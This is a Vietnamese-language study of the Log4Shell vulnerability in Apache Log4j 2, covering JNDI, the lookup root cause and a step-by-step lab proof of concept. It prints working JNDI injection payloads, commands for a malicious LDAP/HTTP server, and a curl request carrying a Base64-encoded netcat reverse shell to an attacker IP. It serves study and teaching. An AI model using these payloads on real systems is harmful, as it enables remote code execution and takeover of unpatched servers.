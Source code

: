 # Nghiên cứu lỗ hổng Log4shell

# **1. Mã khai thác**

```
${jndi:ldap://127.0.0.1:1389/Run}
```

# **2. Mô tả lỗi**

## 2.1. Giới thiệu về Log4shell

*Apache Log4j 2* là một thư viện Java phổ biến hỗ trợ việc log error messages của ứng dụng.

Log4shell là lỗ hổng phần mềm của *Apache Log4j 2* được published lần đầu với CVE-2021-44228, với nguyên nhân chủ yếu là do Improper Input Validation, cho phép remote attacker có thể chiếm quyền kiểm soát thiết bị trên Internet nếu thiết bị đó chạy Log4j 2.

Log4shell là tên gọi cho tập hợp các lỗ hổng của thư viện log4j bao gồm các CVE như: CVE-2021-44228, CVE-2021-45046, CVE-2021-4104, CVE-2021-42550, CVE-2021-45105, CVE-2021-44832.

Ở CVE-2021-44228, log4j phiên bản 2.0 tới 2.14.1 bị ảnh hưởng.

## 2.2. JNDI 

JNDI (Java Naming and Directory Interface) là 1 dịch vụ thư mục (directory service) cho phép chương trình Java có thể tìm kiếm dữ liệu bằng cách sử dụng name service.

![image-20220317142455864](image/image-20220317142455864.png)

JNDI cung cấp API cho ứng dụng để tương tác với LDAP, RMI,... Thông thường app Java sẽ không thể trực tiếp gửi request tới LDAP. 

JNDI Naming Reference: Để thu được Java object, ta có thể tiến hành serialized chúng và lưu dưới dạng nhị phân. Tuy vậy trong 1 số trường hợp, việc này sẽ không hiệu quả (File quá lớn,...) Naming references được sử dụng giúp cho việc lưu Java object trở nên dễ dàng hơn. Naming reference có 2 loại chính:

- Reference address: tham chiếu địa chỉ của object (`ldap://server/ref`), object sẽ được lấy thông qua địa chỉ đó.

  ![image-20220327154523522](image/image-20220327154523522.png)

- Remote Factory: remote factory class sẽ được trỏ tới bởi JNDI reference, sau đó theo địa chỉ JNDI remote class này sẽ được lấy từ remote factory và class sẽ được tải xuống và load. 

  ![image-20220327160154306](image/image-20220327160154306.png)

## 2.3. Root cause

Log4j có một tính năng dẫn tới lỗ hổng này, đó chính là tính năng lookup. Tính năng này được trigger bởi một chuỗi string đặc thù `${prefix:name}` . Thay vì in ra cả chuỗi ký tự này, đoạn string này sẽ được Log4j tiến hành lookup() .

```java
import org.apache.logging.log4j.Logger;
import org.apache.logging.log4j.LogManager;
 
public class Gday {
   static Logger logger = LogManager.getLogger(Gday.class);
 
   public static void main(String... args) {
      logger.error(args.length > 0 ? args[0] : "[no data provided to log]");
      System.out.println("Main is exiting.");
   }
}
```

![image-20220317153557009](image/image-20220317153557009.png)

Root cause của Log4shell nằm ở tính năng lookup() của JNDI, dẫn tới việc attacker tiến hành JNDI injection. 2 giao thức được hỗ trợ chủ yếu bởi JNDI là LDAP và RMI, khi thực hiện lookup() đều trả về 1 object.  Object này sẽ được server nạn nhân thực thi, dẫn tới RCE.

Đối với JNDI Injection, ta sẽ có 2 cách để tiến hành khai thác:

- Deserialization exploit:

  Đối với cách khai thác này, attacker có thể chèn mã độc với định dạng `${jndi:ldap://attacker/exploit}`, khi đoạn mã độc được log lại tại server nạn nhân, Log4j tìm thấy đoạn message và bắt đầu thực hiện request JNDI tới LDAP server  của `attacker` về `exploit` object. JNDI sẽ tiến hành lookup class mã độc tại LDAP server . LDAP sẽ trả về server nạn nhận một malicious serialized object, server nạn nhân sẽ tiến hành deserialize object, thực thi file `exploit.class` `->` Dẫn tới RCE. 

  ![image-20220317164249797](image/image-20220317164249797.png)

- JNDI Reference: Đối với cách khai thác JNDI Reference, attacker sẽ sử dụng 1 LDAP server và 1 HTTP server, sau khi chèn mã độc `${jndi:ldap://attacker/exploit}`, đoạn mã được log tại server nạn nhân, log4j tìm thấy đoạn mã này và tiến hành jndi lookup như kịch bản trên. JNDI sẽ gửi request tới LDAP server của attacker và được LDAP server trả về 1 JNDI reference, server nạn nhận nhận được JNDI reference này sẽ gửi request tới HTTP server của attacker để GET về file `exploit.class` và tiến hành thực thi mã độc này.

  

## 2.4. POC cho JNDI Reference exploit:

- Step 1: Chạy vuln app tại `192.168.16.105:8080`.

  ```
  docker run --name vulnerable-app --rm -p 8080:8080 ghcr.io/christophetd/log4shell-vulnerable-app
  ```

  ![image-20220330192433872](image/image-20220330192433872.png)

- Step 2: Sử dụng JNDIExploit để khởi chạy malicious LDAP server và HTTP server tại máy của attacker.

  ```
  java -jar JNDIExploit-1.2-SNAPSHOT.jar -i 172.30.178.54 -p 8888
  ```

  ![image-20220330185556540](image/image-20220330185556540.png)

- Step 3: Tại máy attacker, một cửa sổ bật ncat, 1 cửa sổ sử dụng tiến hành gửi request có chứa đoạn mã độc để kích hoạt reverse shell.

  ```
  curl 192.168.16.105:8080 -H 'X-Api-Version: ${jndi:ldap://172.30.178.54:1389/Basic/Command/Base64/bmMgMTcyLjMwLjE3OC41NCA0NDQ0IC1lIC9iaW4vc2g=}'
  ```

- Step 4: Đoạn mã độc được log tại server nạn nhân, tiến hành JNDI lookup() với giao thức LDAP tới LDAP server attacker, tại đây các parameter trong URL được xử lý, cụ thể là Command được mã hóa Base64 được encode thành `nc 172.30.178.54 4444 -e /bin/sh`, và được gửi tới HTTP server của attacker, tại đây 1 file `exploit.class` được gen ra dựa trên Command được gửi tới từ LDAP server, server nạn nhân tiến hành GET file `exploit.class` và thực thi file, attacker lấy được shell tới server nạn nhân.

  ![image-20220330192032389](image/image-20220330192032389.png)

